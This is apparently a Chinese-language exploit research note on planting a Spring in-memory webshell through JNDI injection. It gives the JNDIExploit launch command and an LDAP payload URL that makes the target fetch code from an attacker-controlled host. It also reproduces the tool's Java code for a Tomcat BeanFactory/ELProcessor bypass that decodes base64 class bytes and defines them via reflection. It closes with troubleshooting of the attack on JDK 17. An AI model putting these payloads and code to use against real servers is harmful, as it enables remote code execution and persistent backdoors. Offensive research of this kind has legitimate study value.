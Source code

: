 在存在jdni注入的情况下，注入一个Spring的内存马。
开启jdni注入工具：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar --ip 192.168.17.129 --httpPort 8081
```

请求中插入payload：
```
ldap://192.168.17.129:1389/TomcatBypass/SpringMemshell
```

jndi注入工具收到请求：
![image](https://user-images.githubusercontent.com/30398606/174015267-93d53012-99f1-4bbf-9785-e1779d549928.png)


相关注入代码：
com.feihong.ldap.gadgets.utils.Gadgets #createTemplatesImpl (PayloadType type, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory, String... param)
  
```java
  byte[] classBytes = null;
        switch (type){
            ...
            case springmemshell:
                classBytes = Cache.get("SpringMemshellTemplate");
                break;
            ...
         }
```

com.feihong.ldap.utils.Cache中注入：
```java
      static{
        try {
            //过期时间100年，永不过期的简单方法
            map.put("TomcatEchoTemplate", Util.getClassBytes(TomcatEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringEchoTemplate", Util.getClassBytes(SpringEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicEchoTemplate", Util.getClassBytes(WeblogicEchoTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate1", Util.getClassBytes(TomcatMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("TomcatMemshellTemplate2", Util.getClassBytes(TomcatMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JettyMemshellTemplate", Util.getClassBytes(JettyMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate1", Util.getClassBytes(WeblogicMemshellTemplate1.class), 365 * 100, TimeUnit.DAYS);
            map.put("WeblogicMemshellTemplate2", Util.getClassBytes(WeblogicMemshellTemplate2.class), 365 * 100, TimeUnit.DAYS);
            map.put("JBossMemshellTemplate", Util.getClassBytes(JBossMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("WebsphereMemshellTemplate", Util.getClassBytes(WebsphereMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
            map.put("SpringMemshellTemplate", Util.getClassBytes(SpringMemshellTemplate.class), 365 * 100, TimeUnit.DAYS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static byte[] get(String key){
        return map.get(key);
    }

    public static void set(String key, byte[] bytes){
        map.put(key, bytes);
    }
```

com.feihong.ldap.controllers.TomcatBypassController
```java
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String base) throws Exception {
        System.out.println("[+] Sending LDAP ResourceRef result for " + base + " with javax.el.ELProcessor payload");

        Entry e = new Entry(base);
        e.addAttribute("javaClassName", "java.lang.String"); //could be any
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=eval"));

        TomcatBypassHelper helper = new TomcatBypassHelper();
        String code = null;
        switch (type){
  
            case springmemshell:
                code = helper.injectSpringMemshell();
                break;
        ...
        }
```
  
com.feihong.ldap.controllers.TomcatBypassController$TomcatBypassHelper
```java

        public String injectSpringMemshell(){
            return injectMemshell(SpringMemshellTemplate.class);
        }
  
        public String injectMemshell(Class clazz){
            //使用类加载的方式最为方便，可维护性也大大增强

            String classCode = null;
            try{
                classCode = Util.getClassCode(clazz);
            }catch(Exception e){
                e.printStackTrace();
            }

            String code = "var bytes = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('" + classCode + "');\n" +
                    "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                    "try{\n" +
                    "   var clazz = classLoader.loadClass('" + clazz.getName() + "');\n" +
                    "   clazz.newInstance();\n" +
                    "}catch(err){\n" +
                    "   var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                    "   method.setAccessible(true);\n" +
                    "   var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                    "   clazz.newInstance();\n" +
                    "};";

            return code;
        }
```

com.feihong.ldap.utils.Util
```java
    public static String getClassCode(Class clazz) throws Exception {
        byte[] bytes = getClassBytes(clazz);
        String result = Util.base64Encode(bytes);

        return result;
    }
  
    public static byte[] getClassBytes(Class clazz) throws Exception {
        String className = clazz.getName();
        String resoucePath = className.replaceAll("\\.", "/") + ".class";
        InputStream in = Util.class.getProtectionDomain().getClassLoader().getResourceAsStream(resoucePath);
        byte[] bytes = new byte[1024];
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        int len = 0;
        while((len = in.read(bytes)) != -1){
            baous.write(bytes, 0 , len);
        }

        in.close();
        baous.close();

        return baous.toByteArray();
    }
```

Ref:
- https://github.com/shadowsock5/JNDIExploit/blob/a3addc8d5fb3281d9ea95f9fbcc85e14ebb8dd25/src/main/java/com/feihong/ldap/controllers/TomcatBypassController.java

  
```java
javax.script.ScriptEngineManager #getEngineByName("JavaScript")
```
在JDK-17.0.2，下执行失败，找不到这个Engine。

而在JDK-11下：
![image](https://user-images.githubusercontent.com/30398606/174246137-e5604d2f-5f75-4ea1-994e-29da96ca9113.png)
没有问题。
![image](https://user-images.githubusercontent.com/30398606/174246969-f0b2b684-22eb-4eef-831c-3707f8b37404.png)

  开始还以为是jdk-17对jndi的注入有什么限制，后来发现原来不是，依然可以绕过，只是获取不到`getEngineByName("JavaScript")`
原来是
> Java 15 removed [Nashorn JavaScript Engine](https://golb.hplar.ch/2020/04/java-javascript-engine.html)

推荐使用`GraalVM JavaScript engine`？但是需要添加依赖：
```xml
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js</artifactId>
  <version>22.0.0</version>
</dependency>  
<dependency>
  <groupId>org.graalvm.js</groupId>
  <artifactId>js-scriptengine</artifactId>
  <version>22.0.0</version>
</dependency>
```
然后使用方法：
```java
// Graal
ScriptEngine graalEngine = new ScriptEngineManager().getEngineByName("graal.js");
graalEngine.eval("print('Hello World!');");
```
查看哪些Engine可以用：
```java
new ScriptEngineManager().getEngineFactories();
```
JDK-17下，
  ![image](https://user-images.githubusercontent.com/30398606/174250896-348355dc-04cd-437c-909b-54748b182a76.png)

  
尝试使用这个：
  https://github.com/lz2y/yaml-payload-for-ruoyi/blob/main/src/main/java/artsploit/AwesomeScriptEngineFactory.java
  但是：
  ![image](https://user-images.githubusercontent.com/30398606/174265414-fdadcbae-6b3b-4e39-9f4c-bb6c62e95b17.png)
```
java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(byte[],int,int) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @2d127a61
```

Ref:
  - https://stackoverflow.com/questions/71481562/use-javascript-scripting-engine-in-java-17
  - https://github.com/keycloak/keycloak/issues/9945
